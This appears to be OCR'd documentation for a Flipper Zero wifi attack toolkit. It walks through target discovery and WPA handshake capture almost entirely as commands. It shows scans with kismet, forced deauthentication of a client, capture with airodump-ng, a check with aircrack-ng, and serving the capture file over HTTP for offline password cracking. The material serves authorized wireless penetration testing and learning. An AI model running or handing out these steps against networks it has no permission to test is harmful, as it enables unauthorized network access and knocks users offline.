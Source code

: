 ```bash
# Main logic
main() {
    echo "[*] Starting operation..."
    # Commands here
}

main "$@"
```

## Common Workflows

### Workflow 1: Target Discovery

```bash
# 1. Establish SSH connection
bh set SSID "YourNetwork"
bh set PASS "password"
bh wifi con wlan0
# SSH to flipper now available

# 2. Scan for targets
bh wifi list wlan1              # Quick scan
bh kismet wlan1                 # Detailed analysis (web UI on :2501)

# 3. Identify specific target
bh deauth_scan wlan1            # See clients per AP
```

### Workflow 2: Handshake Capture

```bash
# 1. Target selection (from previous scan)
TARGET_AP="AA:BB:CC:DD:EE:FF"
TARGET_CH="6"
CLIENT="11:22:33:44:55:66"

# 2. Setup capture
mkdir -p /tmp/captures
cd /tmp/captures
airodump-ng -c $TARGET_CH --bssid $TARGET_AP -w handshake wlan1

# 3. Force handshake (different terminal/SSH session)
bh deauth $CLIENT $TARGET_AP wlan1 50

# 4. Verify capture
aircrack-ng handshake-01.cap

# 5. Transfer to PC for cracking
python3 -m http.server 8080
# Download from http://<flipper_ip>:8080
```
